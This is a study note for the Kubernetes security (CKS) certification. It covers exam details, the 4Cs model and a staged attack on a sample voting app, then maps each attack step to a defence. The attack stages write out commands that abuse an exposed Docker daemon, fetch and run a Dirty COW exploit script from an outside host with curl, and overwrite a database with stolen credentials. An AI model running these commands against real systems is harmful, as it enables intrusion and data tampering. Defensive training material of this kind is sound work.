




# Module 0-7-1: Kubernetes Security Overview & Attack Surface Defense-in-Depth

**Breadcrumbs:** [[0-Index - Kubernetes|🏠 Kubernetes Reference MOC]] > [[0-Index - CKS|🛡️ CKS Reference MOC]] > **Module 0-7-1**

> [!ABSTRACT] 📚 Course Alignment & Module Scope
> **Course:** KodeKloud Certified Kubernetes Security Specialist (CKS)
> **Section:** Understanding the Kubernetes Attack Surface
> **Source Files:** `inflow/cks_split/01_overview_and_attack_surface.md`
> **Topics Covered:** CKS Exam Architecture, 4Cs of Cloud-Native Security, Full End-to-End Voting App Attack Simulation, Defense-in-Depth Remediation, and Threat Modeling Diagnostics (AARF).

---

## 🧭 Table of Contents
1. [Course Overview & CKS Exam Strategy](#1--course-overview--cks-exam-strategy)
2. [The 4Cs of Cloud-Native Security](#2--the-4cs-of-cloud-native-security)
3. [Full End-to-End Attack Simulation: "The Voting App" Breach](#3--full-end-to-end-attack-simulation-the-voting-app-breach)
4. [The Defense-in-Depth Remediation Matrix](#4--the-defense-in-depth-remediation-matrix)
5. [Deep-Intuition Diagnostic Analyses (AARF)](#5--deep-intuition-diagnostic-analyses-aarf)
6. [CKS Exam Speed Hacks & Threat Modeling Checklist](#6--cks-exam-speed-hacks--threat-modeling-checklist)
7. [Course Walkthrough Navigation](#7--course-walkthrough-navigation)

---

## 1. 🧭 Course Overview & CKS Exam Strategy

### 1.1 The CKS Philosophy vs. CKA
The **Certified Kubernetes Security Specialist (CKS)** represents the advanced hands-on security credential within the Cloud Native Computing Foundation (CNCF) certification path. While the **Certified Kubernetes Administrator (CKA)** validates cluster operational lifecycle management, workload scheduling, persistent storage, and basic troubleshooting, the **CKS** focuses on:
* **Attack Surface Minimization:** Eliminating unnecessary binaries, host daemons, ports, and kernel capabilities.
* **Multi-Layered Isolation:** Enforcing boundaries across host operating systems, container runtimes, API admission controllers, and network policies.
* **Vulnerability & Supply Chain Hardening:** Scanning images, enforcing cryptographic signatures, and governing immutable deployments.
* **Runtime Behavioral Threat Detection:** Intercepting malicious system calls and abnormal container behavior in real time (e.g., via Falco and API auditing).



### 1.2 CKS Exam Parameters & Rules
* **Format:** 100% performance-based practical exam on a live Linux terminal environment.
* **Prerequisite:** Candidates **must hold an active (non-expired) CKA certification** on the day of the exam.
* **Duration:** 2 hours (120 minutes) covering 15–20 real-world cluster security scenarios.
* **Allowed Documentation:** Unlimited access to official documentation subdomains:
  - `https://kubernetes.io/docs/`
  - `https://github.com/kubernetes/`
  - `https://kubernetes.io/blog/`
  - Official tool docs permitted in specific tasks: Falco (`https://falco.org/docs/`), Trivy, and AppArmor.
* **Passing Score:** Typically 67% or higher.
* **Validity:** Certification is valid for 2 years; registration includes one free retake attempt within 12 months.

<Frame>
  
</Frame>

### 1.3 Hands-On Mindset: Exploration Before Deployment
In production and exam environments, never deploy containers without verifying local runtime images and daemon configurations.
```bash
# Verify available local images:
docker images
# or under modern containerd:
crictl images

# Test running a containerized workload in foreground:
docker run --rm redis:alpine
```

---

## 2. 🏛️ The 4Cs of Cloud-Native Security

Cloud-native security is modeled as **concentric perimeters of defense**, known as the **4Cs**:
1. **Cloud** (Infrastructure & Perimeter)
2. **Cluster** (Orchestration & Control Plane)
3. **Container** (Process Isolation & Runtime)
4. **Code** (Application Logic & Secrets)

> [!IMPORTANT]
> **The Dependency Rule:** Each layer serves as a foundation for the layers within it. If the outer layer (e.g., Cloud or Host) is compromised, no amount of security at inner layers (e.g., Container or Code) can guarantee workload safety. Conversely, strong outer layers cannot completely protect against vulnerable application code or malicious container supply chains.

<Frame>
  
</Frame>



### 2.1 Deep Breakdown of the 4 Perimeters

| Layer | Primary Threat Vectors | Mandatory CKS Defenses & Hardening Controls | CKS Course Module |
| :--- | :--- | :--- | :--- |
| **1. Cloud** | Exposed public management ports, overly permissive IAM roles, stolen cloud credentials, SSRF against IMDSv1 (`169.254.169.254`). | Strict VPC security groups, private-only API server endpoints, mandatory IMDSv2 (hop limit 1, token session headers), cloud KMS encryption. | Module 2 & 3 |
| **2. Cluster** | Unauthenticated Kubelet (`10250`/`10255`), open Docker daemon TCP (`2375`), anonymous API requests, overly broad RBAC (`cluster-admin`), unauthenticated Dashboard on NodePort. | CIS Benchmark verification (`kube-bench`), strict RBAC least privilege, NodeRestriction admission plugin, mTLS for all control plane daemons, default-deny `NetworkPolicies`. | Module 2 |
| **3. Container** | Container breakout to host root, unconfined privileged containers, writable root filesystems allowing exploit payload compilation, mounting `/var/run/docker.sock`. | Pod Security Standards (Restricted profile via PSA), `readOnlyRootFilesystem: true`, Linux Capabilities stripping (`drop: [ALL]`), Seccomp runtime profiles (`RuntimeDefault`), AppArmor profiles, gVisor sandboxing. | Module 3 & 4 |
| **4. Code** | Hardcoded credentials in source code/images, SQL injection, insecure dependencies, cleartext HTTP communication between services. | Static application security testing (SAST), software composition analysis (Trivy), secret injection via projected volumes/KMS, mutual TLS (mTLS) via Service Mesh or network encryption. | Module 4 & 5 |

---

## 3. 🎯 Full End-to-End Attack Simulation: "The Voting App" Breach

To develop deep diagnostic intuition for Kubernetes attack surfaces, the course demonstrates a multi-stage attack on a distributed election application consisting of:
* Web voting frontend: `www.vote.com`
* Public results portal: `www.result.com`
* Backend PostgreSQL database storing vote tallies
* Deployed across a single-master, single-worker Kubernetes cluster.

<Frame>
  
</Frame>

### 3.1 Attack Sequence Flowchart



---

### 3.2 Step-by-Step Technical Dissection of the Attack

#### Stage 1: Reconnaissance & Infrastructure Discovery
The attacker begins with two public endpoints: `www.vote.com` and `www.result.com`.

1. **DNS Resolution:**
   ```bash
   ping -c 4 www.vote.com
   ping -c 4 www.result.com
   ```
   Both resolve to the exact same IP (`104.21.63.124`), indicating shared hosting or a shared load balancer.

2. **Network Port Scanning:**
   ```bash
   # Scanning common management and service ports:
   zsh port-scan.sh 104.21.63.124
   ```
   *Terminal Output:*
   ```text
   Scanning port  21 for   ftp        ...      Fail 🔴
   Scanning port  22 for   ssh        ...      Fail 🔴
   Scanning port  80 for   http       ...      Fail 🔴
   Scanning port 443 for   https      ...      Fail 🔴
   Scanning port 2375 for  docker     ...      Success 🟢
   Scanning port 3306 for  mysql      ...      Fail 🔴
   ```
   > [!CAUTION] Critical Finding
   > **Port 2375 is open!** Port 2375 is the default unencrypted, unauthenticated TCP socket for the Docker daemon. (Secure Docker uses port 2376 with mutual TLS).

---

#### Stage 2: Exploiting the Exposed Docker Daemon
Because the daemon is listening on `0.0.0.0:2375` without TLS client verification, any remote client can communicate with it directly using the standard Docker CLI:

```bash
# Query daemon info and running containers:
docker -H 104.21.63.124:2375 ps
docker -H 104.21.63.124:2375 version
```
*Output confirms Docker Engine v19.03 running on Linux AMD64.*

The attacker immediately leverages remote execution to launch a **privileged container**:
```bash
docker -H 104.21.63.124:2375 run --privileged -it ubuntu bash
```

Once executed, the attacker obtains an interactive root shell inside the container:
```text
root@174e320b98f9:/#
```

---

#### Stage 3: Container Breakout to the Host Operating System
Although the attacker is root inside the container, they are still inside the container's mount and PID namespaces. However:
1. **The `--privileged` Flag:** Gives the container access to all host devices in `/dev` (e.g., `/dev/sda1`) and grants all Linux capabilities.
2. **Writable Root Filesystem:** Allows installing arbitrary network tools and compilers.

The container initially lacks `curl` and `wget`:
```bash
root@174e320b98f9:/# curl http://catgirl.me/dirty-cow.sh
bash: curl: command not found
```

Because package management is unconstrained, the attacker installs `curl`:
```bash
apt-get update && apt-get install -y curl
```

The attacker then downloads and executes a kernel privilege escalation exploit—**Dirty COW (CVE-2016-5195)**—which exploits a race condition in the Linux kernel copy-on-write memory subsystem:
```bash
curl http://catgirl.me/dirty-cow.sh > dirty-cow.sh
chmod +x dirty-cow.sh && ./dirty-cow.sh
```
The exploit succeeds, breaking out of the container boundary and dropping the attacker into an **unrestricted host root shell**.

---

#### Stage 4: Host Reconnaissance & Kubernetes Discovery
Now operating directly on the physical/virtual host OS:

1. **Storage & Mount Inspection:**
   ```bash
   df -h
   ```
   *Output reveals host mounts:*
   ```text
   Filesystem      Size  Used Avail Use% Mounted on
   /dev/sda1      9.7G  7.7G  2.0G  80% /
   vagrant         3.7T 631G  3.1T  17% /vagrant
   ```

2. **Hostname & Node Role Inspection:**
   ```bash
   hostname
   # Output: worker
   ```
   The hostname `worker` suggests this node is part of a Kubernetes cluster.

3. **Container Inventory:**
   Running `docker ps` on the host reveals numerous containers with names prefixed by `k8s_`:
   - `k8s_POD_...` (Pause containers)
   - `k8s_kube-proxy_...`
   - `k8s_kubernetes-dashboard_...`

4. **Network Inspection (iptables NAT rules):**
   ```bash
   sudo iptables -L -t nat | grep -i kubernetes
   ```
   *Output reveals a NodePort rule routing incoming host port `30080` to the Kubernetes Dashboard Service.*

---

#### Stage 5: Unprotected Kubernetes Dashboard Exploitation
The attacker navigates to `http://104.21.63.124:30080` in their browser.

<Frame>
  
</Frame>

The dashboard is completely unauthenticated and runs with cluster-admin privileges:
1. It exposes all cluster nodes (`master`, `worker`), deployments, and namespaces.
2. Under the `production` namespace, the attacker identifies four core services:
   - `voting-app`
   - `result-app`
   - `redis`
   - `db` (PostgreSQL backend)
3. Inspecting the `db` pod details reveals **environment variables stored in plaintext**:
   ```yaml
   POSTGRES_DB: election
   POSTGRES_USER: postgres
   POSTGRES_PASSWORD: SuperSecretAdminPassword123
   ```

---

#### Stage 6: Direct Database Takeover & Vote Manipulation
With database credentials and internal pod IP in hand, the attacker connects to the PostgreSQL database container using `psql`:

```bash
psql -h 10.244.1.45 -U postgres -d election
```

Inside the PostgreSQL prompt, the attacker queries the votes table and executes an SQL update:
```sql
-- Query existing votes:
SELECT * FROM votes;

-- Overwrite election results to make cats win:
UPDATE votes SET vote = 'a';
```

```text
734783fsde3de125 | a
734783fsde3de126 | a
734783fsde3de129 | a
postgres=# 
```

The election results on `www.result.com` immediately flip, completing the full compromise.

---

## 4. 🛡️ The Defense-in-Depth Remediation Matrix

A resilient cluster implements defense-in-depth: if any single security boundary fails, the subsequent layer immediately neutralizes the attack.



### 4.1 Vulnerability to Control Mapping Table

| Phase | Exploited Flaw | Specific Architectural Fix | Relevant CKS Technology |
| :--- | :--- | :--- | :--- |
| **Reconnaissance** | Docker TCP port 2375 listening on public IP `0.0.0.0`. | Bind container runtimes strictly to Unix sockets (`/run/containerd/containerd.sock`). Apply Cloud Security Groups and node firewall (`ufw default deny incoming`). | Linux Host Hardening & Cloud Security Groups |
| **Daemon Access** | Remote Docker access with zero authentication. | If remote engine access is required, enforce mutual TLS (port 2376) with client certificates issued by an internal CA. | TLS & X.509 Certificates (Module 2) |
| **Workload Spawn** | Attacker spawned `--privileged` container with host access. | Enforce **Pod Security Admission (PSA)** with `restricted` profile. Prohibit `privileged: true` and disallow host device mapping. | PSA & Pod Security Standards (Module 4) |
| **Container Breakout** | Writable container filesystem allowed installing `curl` and running exploit binaries. | Set `readOnlyRootFilesystem: true` in `securityContext`. Set `drop: ["ALL"]` on Linux capabilities. Update host Linux kernel to patch known vulnerabilities. | Seccomp, AppArmor & Capabilities (Module 3) |
| **Cluster Discovery** | Kubernetes Dashboard exposed publicly on NodePort 30080 without authentication. | Do not use web dashboards in production. If used, bind only to `localhost` or protect with OAuth2 / Dex proxy and strict RBAC. Never use NodePort for administrative tools. | API Hardening & RBAC (Module 2) |
| **Secret Exposure** | Database password stored as plaintext environment variable in Pod spec. | Store credentials in Kubernetes Secrets; mount as projected files; encrypt Secrets at rest in etcd using `EncryptionConfiguration` (KMS provider). | Secrets Management & KMS (Module 4) |
| **Lateral Movement** | Attacker traversed worker network to connect directly to PostgreSQL pod. | Enforce default-deny `NetworkPolicy` allowing inbound traffic to port 5432 **only** from pods with label `role: backend-worker`. | NetworkPolicies (Module 2) |
| **Data Manipulation** | Direct execution of `psql` inside production database was unmonitored. | Deploy **Falco** to trigger instant alerts and kill anomalous shells (`Notice: Terminal shell in container`, `Warning: Database client spawned by untrusted parent`). | Falco Runtime Security (Module 6) |

---

## 5. 🔍 Deep-Intuition Diagnostic Analyses (AARF)

### Scenario 1: Unauthenticated Daemon & Port Exposure
* **The Answer:** Bind container runtime sockets exclusively to local Unix domain sockets (`unix:///run/containerd/containerd.sock`). Bind `kube-apiserver` to private VPC interfaces or restrict inbound access on port 6443 via security group rules and VPN gateways. Disable unauthenticated Kubelet ports (`--read-only-port=0`).
* **The Assumptions:** The cluster runs inside a private VPC or software-defined network where worker nodes communicate via internal RFC-1918 IPs.
* **The Rationale (Why):** Container runtimes and cluster components communicate via HTTP/gRPC APIs. If exposed without TLS authentication, any HTTP client can dispatch commands to spawn root containers, mount host drives, or inspect cluster state.
* **The Failure Loop (What if not):** Internet scanning platforms (Shodan, Censys) index the port within minutes; automated attack scripts deploy cryptominers or ransomware into the host filesystem.
* **The Alternative Case:** If an external client must access the API server directly, use public endpoints backed by strict IP whitelisting (`cidrBlocks`) and enforce mTLS with client certificate authentication.

### Scenario 2: Neutralizing Container Breakouts via Read-Only Root Filesystems
* **The Answer:** Enforce `securityContext.readOnlyRootFilesystem: true` across all production pod specifications, providing temporary writable storage strictly via isolated `emptyDir` volumes mounted at specific paths (e.g., `/tmp`).
* **The Assumptions:** The workload does not modify its own application binary directories at runtime.
* **The Rationale (Why):** Attackers breaking into a container typically need to install reconnaissance binaries (`curl`, `nmap`, `gcc`, exploit scripts). A read-only root filesystem causes `apt-get install`, `yum`, or `curl > exploit` to immediately terminate with `Read-only file system (EROFS)`.
* **The Failure Loop (What if not):** The attacker downloads automated enumeration scripts (`linpeas.sh`) and kernel exploits, escalating privileges directly to the host OS.
* **The Alternative Case:** For legacy applications requiring dynamic file generation, mount dedicated PersistentVolumes or `emptyDir` volumes to specific subdirectories rather than leaving the root filesystem writable.

### Scenario 3: Eliminating Plaintext Credential Exposure in Workload Specs
* **The Answer:** Never define sensitive credentials inside `spec.containers[*].env[*].value`. Store credentials in Kubernetes Secrets, mount them as files via volume mounts, and enforce **Secret Encryption at Rest** in `etcd` using an `EncryptionConfiguration` provider.
* **The Assumptions:** Applications can read configuration credentials from mounted file paths.
* **The Rationale (Why):** Environment variables are visible to anyone with `get pods` or `describe pod` RBAC permissions, and appear in container logs, crash dumps, and debugging tools. Mounted secret volumes reside in `tmpfs` memory and are only visible inside the container mount namespace.
* **The Failure Loop (What if not):** Any read-only dashboard user or compromised sidecar container can exfiltrate production database credentials simply by reading `/proc/1/environ` or viewing the pod spec.
* **The Alternative Case:** In modern enterprise setups, use the **Secrets Store CSI Driver** to synchronize credentials directly from cloud KMS/Vault (AWS Secrets Manager, HashiCorp Vault, Azure Key Vault) directly into memory without persisting them in etcd.

---

## 6. ⚡ CKS Exam Speed Hacks & Threat Modeling Checklist

During the CKS exam, rapid threat surface reconnaissance is essential:

```bash
# 1. Audit listening ports on a node (verify no insecure daemons are exposed):
ss -tulpn | grep -E '2375|10255|8080'

# 2. Check for containers running in privileged mode across all namespaces:
kubectl get pods -A -o jsonpath='{range .items[*]}{.metadata.namespace}{"/"}{.metadata.name}{": "}{range .spec.containers[*]}{.name}{" privileged="}{.securityContext.privileged}{"\n"}{end}{end}' | grep 'privileged=true'

# 3. Find all Services exposed via NodePort:
kubectl get svc -A --field-selector spec.type=NodePort

# 4. Check whether a Pod enforces a read-only root filesystem:
kubectl get pod <pod-name> -o jsonpath='{.spec.containers[*].securityContext.readOnlyRootFilesystem}'

# 5. Quick test for container filesystem immutability:
kubectl exec -it <pod-name> -- touch /root/test.txt
# Expected secure response: touch: /root/test.txt: Read-only file system
```

---

## 7. 🔗 Course Walkthrough Navigation

* ⬅️ **Previous:** *Start of Course*
* ➡️ **Next Module:** [[Reference Notes/0-7-2_cluster_setup_and_hardening.md|Module 0-7-2: Cluster Setup & Hardening]]
  *(Covers CIS Benchmarks, kube-bench, Kube-APIServer security, Authentication, RBAC, ServiceAccounts, Kubelet Hardening, Network Policies, and Secure Cluster Upgrades).*
* 🏠 **CKS Master Index:** [[Reference Notes/0-Index - CKS.md|🛡️ CKS Certification Reference MOC]]
* 🌐 **Official Kubernetes Documentation:** [Kubernetes Security Overview](https://kubernetes.io/docs/concepts/security/overview/)
